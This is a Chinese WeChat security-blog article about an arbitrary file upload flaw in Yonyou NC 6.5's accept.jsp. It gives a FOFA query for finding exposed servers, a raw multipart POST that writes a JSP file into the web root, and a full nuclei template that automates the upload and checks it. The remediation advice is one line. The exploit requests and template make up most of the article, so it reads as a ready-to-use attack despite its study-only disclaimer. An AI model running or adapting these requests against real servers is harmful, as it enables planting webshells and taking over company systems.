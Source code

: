 #  用友NC accept.jsp任意文件上传漏洞复现 nuclei poc

原创 fgz  [ AI与网安 ](javascript:void\(0\);)

**AI与网安** ![]()

微信号 gh_c57275954216

功能介绍 漏洞复现 0day/nday分享 poc/exp分享 渗透工具分享 AI算法在网络安全中的应用

____

___发表于_

收录于合集

  

免责申明： **本
文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

 **  
**

  

01

—

漏洞名称

  

  

用友NC accept.jsp任意文件上传漏洞

  

02

—  

漏洞影响

  

用友NC 6.5

![]()

  

  

03

—  

漏洞描述

  

用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC
accept.jsp处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。

  

04

—  

FOFA搜索语句

  * 

    
    
    icon_hash="1085941792"

![]()

  

05

—  

漏洞复现

  

POC如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /aim/equipmap/accept.jsp HTTP/1.1Host: x.x.x.xUser-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36Connection: closeContent-Length: 449Accept: */*Accept-Encoding: gzipContent-Type: multipart/form-data; boundary=---------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc  
    -----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYcContent-Disposition: form-data; name="upload"; filename="2XpU7VbkFeTFZZLbSMlVZwJyOxz.txt"Content-Type: text/plain  
    <% out.println("2XpU7Y2Els1K9wZvOlSmrgolNci"); %>-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYcContent-Disposition: form-data; name="fname"  
    \webapps\nc_web\2XpU7WZCxP3YJqVaC0EjlHM5oAt.jsp-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc--

响应数据包如下

  *   *   *   *   * 

    
    
    HTTP/1.1 200 OKConnection: closeContent-Length: 242Content-Type: text/html;charset=gb2312Date: Tue, 07 Nov 2023 02:52:24 GMT

浏览器访问回显文件

![]()

证明存在漏洞

  

  

06

—  

nuclei poc

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: yonyou-nc-accept-fileupload  
    info:  name: 用友NC accept.jsp任意文件上传漏洞  author: fgz  severity: critical  description: |    用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC accept.jsp处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。  reference:    none  metadata:    verified: true    max-request: 2    fofa-query: icon_hash="1085941792"  tags: yonyou,nc,fileupload,2023  
    variables:  boundary: '{{rand_base(29)}}'  
    http:  - raw:      - |        POST /aim/equipmap/accept.jsp HTTP/1.1        Host: {{Hostname}}        Accept: */*        Content-Type: multipart/form-data; boundary=---------------------------{{boundary}}        Accept-Encoding: gzip  
            -----------------------------{{boundary}}        Content-Disposition: form-data; name="upload"; filename="{{randstr_1}}.txt"        Content-Type: text/plain  
            <% out.println("{{randstr_2}}"); %>        -----------------------------{{boundary}}        Content-Disposition: form-data; name="fname"  
            \webapps\nc_web\{{randstr_3}}.jsp        -----------------------------{{boundary}}--      - |        GET /{{randstr_3}}.jsp HTTP/1.1        Host: {{Hostname}}        Content-Type: application/x-www-form-urlencoded        Accept-Encoding: gzip  
        req-condition: true    matchers:      - type: dsl        dsl:          - "status_code_1 == 200"          - "status_code_2 == 200 && contains(body_2,'{{randstr_2}}')"        condition: and

![]()

  

  

07

—  

修复建议

  

关注官方补丁。

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


